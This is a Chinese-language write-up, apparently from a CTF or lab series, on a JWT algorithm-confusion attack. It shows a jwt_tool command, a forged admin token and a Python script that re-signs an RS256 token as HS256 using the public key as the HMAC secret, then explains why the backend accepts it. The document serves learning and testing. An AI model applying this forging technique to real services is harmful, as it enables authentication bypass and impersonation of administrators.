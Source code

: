 使用工具 `python jwt_tool.py -X k -pk public.pem eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.` 将算法改为 HS256 通过把公钥作为密钥改签。

```undefined
eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.y65I9S3UiREQPUe0XREshv1sv0vyB0E-kjW_o14gM3s
```

也尝试过手动改签，把公钥换成一行作为 key 在 [https://tool.oschina.net/encrypt?type=2](https://tool.oschina.net/encrypt?type=2) 得到 hash，用 Base64Url 编码 hash 获取 Secret，用此密匙去加密 `eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ`，最终签名为 `c334ec8de99b50ce008cdec80cc424a766f4b2bf730dc91c483fb7a7ee2cdf6b`，跟工具完全不一样。

原因是方式不对，[https://www.youtube.com/watch?v=ghfmx4pr1Qg](https://www.youtube.com/watch?v=ghfmx4pr1Qg) 4:55 秒就是用程序去做校验的。

```python
import hmac
import hashlib
import base64


file = open('public.pem')
key = file.read()

# Paste your header and payload here
header = '{"alg": "HS256"}'
payload = '{"name": "admin"}'

# Creating encoded header
encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

# Creating encoded payload
encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

# Concatenating header and payload
token = (encodeHeader + "." + encodePayload)

# Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

print(token + "." + sig)
```

这里漏洞产生原因是能够指定加密算法。

1.  后端生成的 JWT 是私钥加密
2.  前端收到 JWT 后，通过更改签名方法，然后使用 HS256 加密，密钥使用 public.pem。
3.  后端去验证此签名，发现 Header 中是 HS256，那么它就使用 HS256，并且拿着 public.pem 去验证，对比签名肯定成功。原本应该是后端使用 RS256，使用 public.pem 去验证你签名，当测试人员用 public.pem 去对 Header、Payload 加密得到签名，由于已经篡改了数据签名产生变化，拿公钥加密此时后端再用公钥肯定解不开（私钥加密公钥解，公钥加密私钥解）。

#### Signature Not Checked \[Very Easy\]
